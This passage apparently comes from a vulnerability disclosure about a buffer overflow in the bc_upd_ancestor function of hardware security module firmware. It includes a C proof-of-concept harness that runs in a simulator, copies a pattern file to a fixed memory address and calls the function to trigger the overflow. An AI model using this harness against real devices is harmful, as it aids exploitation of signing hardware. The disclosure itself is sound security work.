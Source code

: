 Thus, a carefully crafted input can still overflow the buffer.

---

## ⚙️ Environment & Compilation


### 🧪 PoC Test Harness (test_upd_ancestor_poc.c)
```c
#define HSM_PLATFORM_DEFINED
#define HSM_PLATFORM_SIMULATOR
#define NON_VOLATILE
#include "hal/endorsement.h"
#include "platform.h"
#include "simulator_platform.h"
#include <string.h>
#include <stdint.h>
#include <stdio.h>
#include "keccak256.h"
#include "sha256.h"
#include "attestation.h"
#include "hal/seed.h"
#include "hal/log.h"

uint8_t FAKE_APDU_BUFFER[1024 * 10];

void create_fake_rlp_block(uint8_t* buf, size_t* size) {
    memset(buf, 0xAB, 1024);
    *size = 1024;
}

extern unsigned int bc_upd_ancestor(volatile unsigned int rx);

int main() {
    printf("=== [PoC] bc_upd_ancestor Exploit Test ===\n");
    FILE *fp = fopen("pattern.txt", "rb");
    if(fp == NULL) {
        perror("Failed to open pattern file!");
        return 1;
    }
    char pattern_buf[500000];
    size_t pattern_len = fread(pattern_buf, 1, sizeof(pattern_buf), fp);
    fclose(fp);

    memcpy((void*)0x4000, pattern_buf, pattern_len);
    unsigned int result = bc_upd_ancestor((volatile unsigned int)pattern_len);
    printf("[+] bc_upd_ancestor() returned: 0x%X\n", result);
    return 0;
}

```
